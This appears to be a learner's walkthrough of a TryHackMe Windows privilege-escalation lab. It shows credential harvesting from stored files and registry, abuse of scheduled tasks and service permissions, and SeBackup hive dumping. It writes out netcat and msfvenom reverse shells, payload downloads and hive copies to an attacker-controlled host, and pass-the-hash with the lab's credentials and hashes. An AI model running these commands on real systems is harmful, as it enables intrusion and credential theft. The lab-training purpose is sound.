 # TRYHACKME : Windows Privilege Escalation

> Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case. Depending on the situation, we might need to abuse some of the following weaknesses:
> - Misconfigurations on Windows services or scheduled tasks
> - Excessive privileges assigned to our account
> - Vulnerable software
> - Missing Windows security patches

## Windows User
| User Type | Privileges |
|---|---|
| Administrator | -> have the most privileges -> can change any system configuration parameter & access any file in the system |
| Standard Users | -> can access the computer but only perform limited tasks -> these users can not make permanent or essential changes to the system and are limited to their files |

| Special Built-in Accounts | |
|---|---|
| SYSTEM / LocalSystem | -> account used by the operating system to perform internal tasks -> has full access to all files and resources available on the host -> has higher privileges than administrators |
| Local Service | -> default account -> minimum privileges -> uses anonymous connections over the network |
| Network Service | -> default account -> minimum privileges -> use the computer credentials to authenticate through the network |

<details markdown=1>
<summary><h2> 1. Harvesting Passwords from Usual Spots </h2></summary>
  
> This task will present some known places to look for passwords on a Windows system.
>
> Start the target machine. If using 
>
>> Username: `thm-unpriv` Password: `Password321`
>
> # A. Unattended Windows Installations
> When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network.
> 
>> These kinds of installations are referred to as unattended installations as they don't require user interaction.
>
> Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:
>```
>    C:\Unattend.xml
>    C:\Windows\Panther\Unattend.xml
>    C:\Windows\Panther\Unattend\Unattend.xml
>    C:\Windows\system32\sysprep.inf
>    C:\Windows\system32\sysprep\sysprep.xml
> ```
>
> In these type of files, you might encounter credentials such as:
> ```
>  <Credentials>
>     <Username>Administrator</Username>
>     <Domain>thm.local</Domain>
>     <Password>MyPassword123</Password>
>  </Credentials>
> ```
> ## TARGET MACHINE:
>> ```
>> more C:\Unattend.xml => (cannot access file / file not found)
>> more C:\Windows\Panther\Unattend.xml => (cannot access file / file not found)
>> dir C:\Windows\Panther\Unattend => (empty folder)
>> more C:\Windows\system32\sysprep.inf => (cannot access file / file not found)
>> dir C:\Windows\system32\sysprep
>>       <DIR> ActionFiles
>>       <DIR> en-us
>>       <DIR> Panther
>>       sysprep.exe
>> more C:\Windows\system32\sysprep\sysprep.xml => (cannot access file / file not found)
>> ```
>> 
> 
> # B. Powershell History
> All commands run using Powershell gets stored into a file that keeps a memory of past commands.
>
>> It can later be retrieved by using the following command from a `cmd.exe` prompt (it won't work in Powershell; in order to read the file from Powershell, replace `%userprofile%` into `$Env:userprofile`)
>
> ```
> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
>> ls
>> whoami
>> whoami /priv
>> whoami /group
>> whoami /groups
>> cmdkey /?
>> cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z        // WAHH CREDENTIALS!!!
>> cmdkey /list
>> cmdkey /delete:thmdc.local
>> cmdkey /list
>> runas /?
>> ```
>
> # C. Saved Windows Credentials
> Windows allows us to use other users' credentials.
>
> The command below will list saved credentials:
> ```
> cmdkey /list
> ```
>
> Regardless of not seeing actual passwords, credentials alone are worth trying. Use them with the `runas` command and the `/savecrad` option:
> ```
> runas /savecred /user:admin cmd.exe
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>cmdkey /list
>>
>> Currently stored credentials:
>>
>>     Target: Domain:interactive=WPRIVESC1\mike.katz
>>     Type: Domain Password
>>     User: WPRIVESC1\mike.katz
>> 
>> C:\Users\thm-unpriv>runas /savecred /user:mike.katz cmd.exe
>> Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
>>
>> (opens another cmd terminal)
>>
>> C:\Windows\system32>whoami
>> wprivesc1\mike.katz
>> C:\Windows\system32>more C:\Users\mike.katz\Desktop\flag.txt
>> // FLAG ANSWER
>> ```
>
> # D. IIS Configuration
> Internet Information Services (IIS) is the default web server on Windows installations.
>
>> IIS websites' configuration is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms.
>
> Depending on the installed version, `web.config` can be found on ff locations:
>``` 
>    C:\inetpub\wwwroot\web.config
>    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
>```
> 
> To quickly find database connection strings on the file:
> ```
> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
> ```
> ## TARGET MACHINE
>> ```
>> C:\Users\thm-unpriv> more C:\inetpub\wwwroot\web.config => (cannot access file / file not found)
>> C:\Users\thm-unpriv> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
>>                 <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false"
>> bufferMode="Notification" name="SqlWebEventProvider"
>> type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
>>                     <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider"
>> type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral,
>> PublicKeyToken=b03f5f7f11d50a3a" />
>>     <connectionStrings>
>>         <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />  // WAHH CREDENTIALS !!!
>> </connectionStrings>
>> ```
>
> # E. Retrieve Credentials from Software: PuTTY
> **PuTTY** is an SSH client commonly found on Windows systems. It is created by Simon Tatham (his name is part of the path, not the username to retrieve password).
>
> Users can store sessions (IP, user, and other configurations) instead of having to specify a connection's parameters every single time. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.
>
> To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword w/ the ff command:
> ```
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
> ```
> Stored proxy username should also be visible after running the command above.
>
> # TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
>> HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
>> 
>>     ProxyExcludeList    REG_SZ
>>     ProxyDNS    REG_DWORD    0x1
>>     ProxyLocalhost    REG_DWORD    0x0
>>     ProxyMethod    REG_DWORD    0x0
>>     ProxyHost    REG_SZ    proxy
>>     ProxyPort    REG_DWORD    0x50
>>     ProxyUsername    REG_SZ    thom.smith
>>     ProxyPassword    REG_SZ    CoolPass2021    // WAHH CREDENTIALS !!!
>>     ProxyTelnetCommand    REG_SZ    connect %host %port\n
>>     ProxyLogToTerm    REG_DWORD    0x1
>>
>> End of search: 10 match(es) found.
>> ```
>>
</details>

<details>
<summary><h2> 2. Other Quick Wins </h2></summary>
  
> Privilege escalation is not always a challenge.
>
> Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access.
>
> # A. Scheduled Tasks
> Some scheduled task might either lost its binary or it's using a binary you can modify.
>
> Scheduled tasks can be listed from the command line using the `schtasks` command without any options.
>
> To retrieve more detailed information about any of the services you can type
> ```
> C:\> schtasks /query /tn vulntask /fo list /v
> Folder: \
> HostName:                             THM-PC1
> TaskName:                             \vulntask
> Task To Run:                          C:\tasks\schtask.bat
> Run As User:                          taskusr1
> ```
> ### Two Important Parameters:
>> - **Task to Run** = indicates what gets executed by the scheduled task
>> - **Run As User** = shows the user that will be used to execute the task
>
> If modifiable, we can control what gets executed by the taskuser1, resulting in a simple privilege escalation.
> 
> Use `icacls` to check permissions on the executable:
> ```
> C:\> icacls c:\tasks\schtask.bat
> c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
>                     BUILTIN\Administrators:(I)(F)
>                     BUILTIN\Users:(I)(F)
> ```
> The **BUILTIN/Users** group has full access (F) over the task's binary. That means we can modify the .bat file and insert any payloads we like.
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>echo c:\tools\nc64.exe -e cmd.exe <ATTACKER-IP> 4444 > C:\tasks\schtask.bat
>>
>> C:\Users\thm-unpriv>schtasks /run /tn vulntask
>> SUCCESS: Attempted to run the scheduled task "vulntask".
>> ```
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> Listening on 0.0.0.0 4444
>> Connection received on 10.10.89.191 49907
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\taskusr1
>>
>> C:\Windows\system32>more C:\Users\taskuser1\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```
>
> # B. AlwaysInstallElevated
> Windows installer files (.msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it.
>
> However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
>
>> **NOTE:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.
> 
> This method required two registry values to be set. Otherwise, exploitation will not be possible. You can query these from the command line using the commands below:
>> ```
>> C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
>> C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
>> ```
>
> After setting the two, you can generate a malicious .msi file using `msfvenom`, as seen below:
> ```
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
> ```
> As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
> ```
> C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
> ```
  
</details>

<details> 
<summary><h2> 3. Abusing Service Misconfigurations </h2></summary>

> # A. Windows Services
> Window servies are managed by the **Service Control Manager (SCM)**. Its in charge of managing the state of service as needed, checking the current status of any given service and generally providing a way to configure services.
> 
>> Each service will have associated executable which will be run by SCM whenever a service is started.
>
> Service executables implement _special functions_ to be able to communicate with the SCM. Therefore, not any executable can be started as a service succesfully.
>
>> Each service also specifies the **user account** under which the service will run.
>
> To check the structure of a service, let's check as an example the `apphostsvc` service configuration with the `sc qc` command:
> 
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>sc qc apphostsvc
>> [SC] QueryServiceConfig SUCCESS
>>
>> SERVICE_NAME: apphostsvc
>>         TYPE               : 20  WIN32_SHARE_PROCESS\
>>         START_TYPE         : 2   AUTO_START
>>         ERROR_CONTROL      : 1   NORMAL
>>         BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
>>         LOAD_ORDER_GROUP   :        TAG                : 0
>>         DISPLAY_NAME       : Application Host Helper Service
>>         DEPENDENCIES       :
>>         SERVICE_START_NAME : localSystem
>> ```
> Here we can see the _associated executable_ is specified throught the **BINARY_PATH_NAME** parameter, and the _account used_ to urn the service is shown on the **SERVICE_START_NAME** parameter.
>
>> Services have a **Discretionary Access Control List (DACL)**, which indicates _who has permission_ to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges.
>
> DACL can be seen from **Process Hacker** on THM's target machine's desktop. Then click on Services Tab > AppHOstSvc > Security Tab. You'll see the group or user names and their permissions.
>
> While all the services configuration are stored on the **Registry Editor** under `HKLM\SYSTEM\CurrentControlSet\Services\AppHostSvc`
>
>> A **subkey** exist for every service in the system. We can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**.
>
> # B. Insecure Permissions on Service Executable
>
> If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.
>
> To understand how this works, let's look at a vulnerability found on **Splinterware System Scheduler**. To start, we will query the service configuration using sc:
>
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>sc qc WindowsScheduler
>> [SC] QueryServiceConfig SUCCESS
>>
>> SERVICE_NAME: WindowsScheduler
>>         TYPE               : 10  WIN32_OWN_PROCESS
>>         START_TYPE         : 2   AUTO_START
>>         ERROR_CONTROL      : 0   IGNORE
>>         BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
>>         LOAD_ORDER_GROUP   :
>>         TAG                : 0
>>         DISPLAY_NAME       : System Scheduler Service
>>         DEPENDENCIES       :
>>         SERVICE_START_NAME : .\svcusr1
>> ```
 
> We can see that the service installed by the vulnerable software runs as **svcuser1** and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:
>
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
>> C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
>>                                   NT AUTHORITY\SYSTEM:(I)(F)
>>                                   BUILTIN\Administrators:(I)(F)
>>                                   BUILTIN\Users:(I)(RX)
>>                                   APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
>>                                   APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
>>
>> Successfully processed 1 files; Failed processing 0 files
>> ```
> And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. **This means we can simply overwrite it with any payload of our preference**, and the service will execute it with the privileges of the configured user account.
>
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
>>
>> user@attackerpc$ python3 -m http.server 8000
>> Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
>> ```
>
> We can then pull the payload from Powershell with the following command:
> ### TARGET MACHINE:
>> ```
>> wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
>> ```
>
> Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:
>
> ### TARGET MACHINE:
>> ```
>> C:\> cd C:\PROGRA~2\SYSTEM~1\
>>
>> C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
>>         1 file(s) moved.
>>
>> C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
>>         1 file(s) moved.
>>
>> C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
>>         Successfully processed 1 files.
>> ```
>
> We start a reverse listener on our attack machine:
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4445 // OR socat TCP-L:4445 
>> ```
>
> And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:
>
> ### TARGET MACHINE:
>> ```
>> C:\> sc stop windowsscheduler
>> C:\> sc start windowsscheduler
>> ```
> > Note: PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.
>
> As a result, you'll get a reverse shell with svcusr1 privileges
> 
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4445
>> Listening on 0.0.0.0 4445
>> Connection received on 10.10.175.90 50649
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\svcusr1
>> 
>> C:\Windows\system32> more C:\Users\svcusr1\Desktop\flag.txt
>> // RETRIVE FLAG
>> ```
>
> # C. Unquoted Service Paths
> When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.
>
> When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.
>
> This simply shows a syntax error in the **BINARY_PATH_NAME**. When a path is not surrounded by double quotation marks, it is not properly configured as there are spaces on the name of the path of the specific service folder. The command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute.
>
> The command prompt will mistakenly interpret the first line as an executable file and the rest, after the space, is taken as arguments.
>
> **Compare:**
> ```
> BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
> ```
> ```
> BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
> ```
>
> From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.
>
> While this sounds trivial, most of the service executables will be installed under C:\Program Files or C:\Program Files (x86) by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.
>
> In our case, the Administrator installed the Disk Sorter binaries under c:\MyPrograms. By default, this inherits the permissions of the C:\ directory, which allows any user to create files and folders in it. We can check this using icacls:
>
> # TARGET MACHINE:
>> ```
>> C:\>icacls c:\MyPrograms
>> c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
>>               BUILTIN\Administrators:(I)(OI)(CI)(F)
>>               BUILTIN\Users:(I)(OI)(CI)(RX)
>>               BUILTIN\Users:(I)(CI)(AD)
>>               BUILTIN\Users:(I)(CI)(WD)
>>               CREATOR OWNER:(I)(OI)(CI)(IO)(F)
>>
>> Successfully processed 1 files; Failed processing 0 file
>> ```
>
> The BUILTIN\\Users group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
>> 
>> user@attackerpc$ python3 -m http.server 8000
>> Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
>> ```
>
> # TARGET MACHINE (POWERSHELL):
>> ```
>> wget http://ATTACKER_IP:8000/rev-svc2.exe -O rev-svc2.exe
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> nc -lvnp 4446 // OR socat TCP-L:4446 -
>> ```
>
>  Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to **C:\MyPrograms\Disk.exe**. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:
>
> # TARGET MACHINE:
>> ```
>> C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
>>
>> C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
>>         Successfully processed 1 files.
>> 
>> C:\> sc stop "disk sorter enterprise"
>>
>> C:\> sc start "disk sorter enterprise"
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4446
>> Listening on 0.0.0.0 4446
>> connection received on 10.10.175.90 50650
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\svcusr2
>>
>> C:\Windows\system32>more C:\Users\svcusr2\Desktop\flag.txt
>> more C:\Users\svcusr2\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```

> # D. Insecure Service Permissions
> You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted.
>
> Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
>
> To check for a service DACL from the command line, you can use Accesschk from the Sysinternals suite. For your convenience, a copy is available at C:\\tools. The command to check for the thmservice service DACL is:
>
> # TARGET MACHINE:
>> ```
>> C:\>cd C:\tools\AccessChk && accesschk64.exe -qlc thmservice
>> 
>> Accesschk v6.14 - Reports effective permissions for securable objects
>> Copyright ⌐ 2006-2021 Mark Russinovich
>> Sysinternals - www.sysinternals.com
>>
>> thmservice
>>   DESCRIPTOR FLAGS:
>>       [SE_DACL_PRESENT]
>>       [SE_SACL_PRESENT]
>>       [SE_SELF_RELATIVE]
>>   OWNER: NT AUTHORITY\SYSTEM
>>   [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
>>         SERVICE_QUERY_STATUS
>>         SERVICE_QUERY_CONFIG
>>         SERVICE_INTERROGATE
>>         SERVICE_ENUMERATE_DEPENDENTS
>>         SERVICE_PAUSE_CONTINUE
>>         SERVICE_START
>>         SERVICE_STOP
>>         SERVICE_USER_DEFINED_CONTROL
>>         READ_CONTROL
>>   [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators  // TAKE NOTE
>>         SERVICE_ALL_ACCESS
>> ```
> Here we can see that the **BUILTIN\\Users** group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
>
> Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
>>
>> user@attackerpc$ python3 -m http.server 9000
>> Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
>> ```
> 
> # TARGET MACHINE (POWERSHELL):
>> ```
>> wget http://10.4.124.80:9000/rev-svc3.exe -O rev-svc3.exe
>> ```
>
> # TARGET MACHINE (POWERSHELL):
>> ```
>> C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
>>
>> C:\>sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
>> [SC] ChangeServiceConfig SUCCESS
>>
>> C:\>sc stop THMService
>> [SC] ControlService FAILED 1062:
>>
>> The service has not been started.
>>
>> C:\>sc start THMService
>>
>> SERVICE_NAME: THMService
>>         TYPE               : 10  WIN32_OWN_PROCESS
>>         STATE              : 4  RUNNING
>>                                 (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
>>         WIN32_EXIT_CODE    : 0  (0x0)
>>         SERVICE_EXIT_CODE  : 0  (0x0)
>>         CHECKPOINT         : 0x0
>>         WAIT_HINT          : 0x0
>>         PID                : 2884
>>         FLAGS              :
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> $ socat TCP-L:4447 -
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> NT AUTHORITY\SYSTEM
>>
>> C:\Windows\system32>more C:\Users\Administrator\Desktop\flag.txt
>> more C:\Users\Administrator\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```

</details>

<details>
<summary><h2> 4. Abusing Dangerous Privileges </h2></summary>

> # A. Windows Privileges
> Each user has a set of privileges that can be checked with the following command:
>> ```
>> whoami /priv
>> ```
>
> A complete list of available privileges on Windows systems is available [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.
>
> While we won't take a look at each of them, we will showcase how to abuse some of the most common privileges you can find.
>
> # B. SeBackup / SeRestore
> The **SeBackup** and **SeRestore** privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to _perform backups from a system without requiring full administrative privileges_.
>
> Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives **to extract the local Administrator's password hash**.
>
> Log in to the target machine via RDP using the following credentials:
> 
> User: `THMBackup` Password: `CopyMaster555`
>
>> Open command prompt as administrator. Check the account privileges with the ff command:
>
> ### TARGET MACHINE:
>> ```
>> C:\> whoami /priv
>>
>> PRIVILEGES INFORMATION
>> ----------------------
>>
>> Privilege Name                Description                    State
>> ============================= ============================== ========
>> SeBackupPrivilege             Back up files and directories  Disabled
>> SeRestorePrivilege            Restore files and directories  Disabled
>> SeShutdownPrivilege           Shut down the system           Disabled
>> SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
>> SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
>> ```
>
>> To backup the SAM and SYSTEM hashes, we can use the ff. command:
>
> ### TARGET MACHINE:
>> ```
>> C:\> reg save hklm\system C:\Users\THMBackup\system.hive
>> The operation completed successfully.
>>
>> C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
>> The operation completed successfully.
>> ```
>
> This creates duplicate files with the registry hives content.
>
> We can now copy these files to our attacker machine using SMB or any other available method.
>
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ mkdir share
>> user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share 
>>
>> Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
>> [*] Config file parsed
>> [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
>> [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
>> [*] Config file parsed
>> ```
>>> IF PYTHON 3.9 DOESNT WORK TO YOU OR if folders from the example can't be found, look for the file dir path:
>>> ```
>>> find / -type f -name "smbserver.py" 2>/dev/null
>>> ```
> This will create a share named public pointing to the share directory, which requires the username and password of our current windows session. After this, use impacket to retrieve the users' password hashes:
> 
> ### TARGET MACHINE:
>> ```
>> C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
>> C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
>
> ### ATTACKER MACHINE:
>> ```
>> Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
>>
>> [*] Config file parsed
>> [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
>> [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
>> [*] Config file parsed
>> [*] Config file parsed
>> [*] Incoming connection (10.10.8.143,49881)
>> [*] AUTHENTICATE_MESSAGE (WPRIVESC2\THMBackup,WPRIVESC2)
>> [*] User WPRIVESC2\THMBackup authenticated successfully
>> [*] THMBackup::WPRIVESC2:aaaaaaaaaaaaaaaa:2e1d19e8982a827d9c10a33cf2c4df23:010100000000000080af2eeef193db010627d4ce767c439500000000010010006300780052005200690072004500610003001000630078005200520069007200450061000200100067004700560076005500620055006a000400100067004700560076005500620055006a000700080080af2eeef193db010600040002000000080030003000000000000000000000000030000046636b1266546c840d57fc859740047f5562371c3529f221463ce045cc00aa270a001000000000000000000000000000000000000900200063006900660073002f00310030002e0034002e003100320034002e00380030000000000000000000
>> [*] Connecting Share(1:IPC$)
>> [*] Connecting Share(2:public)
>> [*] Disconnecting Share(1:IPC$)
>> [*] Disconnecting Share(2:public)
>> [*] Closing down connection (10.10.8.143,49881)
>> [*] Remaining connections []
>> [*] Incoming connection (10.10.8.143,49887)
>> [*] AUTHENTICATE_MESSAGE (WPRIVESC2\THMBackup,WPRIVESC2)
>> [*] User WPRIVESC2\THMBackup authenticated successfully
>> [*] THMBackup::WPRIVESC2:aaaaaaaaaaaaaaaa:ddda436b4b94a94b91d2649b99f5ae95:0101000000000000004bba32f293db01030e61cff7f1225b00000000010010006300780052005200690072004500610003001000630078005200520069007200450061000200100067004700560076005500620055006a000400100067004700560076005500620055006a0007000800004bba32f293db010600040002000000080030003000000000000000000000000030000046636b1266546c840d57fc859740047f5562371c3529f221463ce045cc00aa270a001000000000000000000000000000000000000900200063006900660073002f00310030002e0034002e003100320034002e00380030000000000000000000
>> [*] Connecting Share(1:public)
>> ```
> We can finally use the Administrator's hash to perform a **Pass-the-Hash attack** and gain access to the target machine with SYSTEM privileges:
> 
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ cd share  // if not in the share dir yet
>> user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
>> Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
>>
>> [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
>> [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
>> Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
>> Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
>>
>> user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.8.143
>> Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
>>
>> [*] Requesting shares on 10.10.175.90.....
>> [*] Found writable share ADMIN$
>> [*] Uploading file nfhtabqO.exe
>> [*] Opening SVCManager on 10.10.175.90.....
>> [*] Creating service RoLE on 10.10.175.90.....
>> [*] Starting service RoLE.....
>> [!] Press help for extra shell commands
